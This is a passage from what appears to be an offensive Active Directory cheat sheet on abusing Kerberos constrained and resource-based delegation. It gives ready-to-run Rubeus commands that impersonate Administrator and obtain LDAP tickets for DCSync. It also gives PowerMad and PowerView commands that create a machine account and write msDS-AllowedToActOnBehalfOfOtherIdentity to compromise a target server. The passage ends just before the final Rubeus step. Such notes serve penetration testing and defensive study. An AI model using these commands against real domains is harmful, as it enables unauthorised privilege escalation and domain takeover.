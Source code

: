 **NOTE:** These properties do NOT have to exist together! If `s4u2proxy` is allowed without `s4u2self`, user interaction is required to get a valid TGS to the frontend service from a user, similar to unconstrained delegation.

#### Exploitation

In this case, we use Rubeus to automatically request a TGT and then a TGS with the `ldap` SPN to allow us to DCSync using a machine account.

```powershell
# Get a TGT using the compromised service account with delegation set (not needed if you already have an active session or token as this user)
.\Rubeus.exe asktgt /user:svc_with_delegation /domain:targetdomain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

# Use s4u2self and s4u2proxy to impersonate the DA user to the allowed SPN
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt

# Same as the two above steps, but access the LDAP service on the DC instead (for dcsync)
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```

### Resource-based constrained delegation

Resource-Based Constrained Delegation (RBCD) configures the *backend server* (e.g. MSSQL) to allow *only selected frontend services* (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.

DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the *frontend service*) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the *backend service*. This means that the *frontend service* needs to have an SPN set. Thus, attacks against RBCD have to be performed from either a service account with SPN or a machine account.

#### Exploitation

If we compromise a *frontend service* that appears in the RBCD property of a *backend service*, exploitation is the same as with constrained delegation above. This is however not too common. 

A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation.

```powershell
# Create a new machine account using PowerMad
New-MachineAccount -MachineAccount NewMachine -Password $(ConvertTo-SecureString 'P4ssword123!' -AsPlainText -Force)

# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target
$sid = Get-DomainComputer -Identity NewMachine -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target
Get-DomainComputer -Identity TargetSrv | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target
```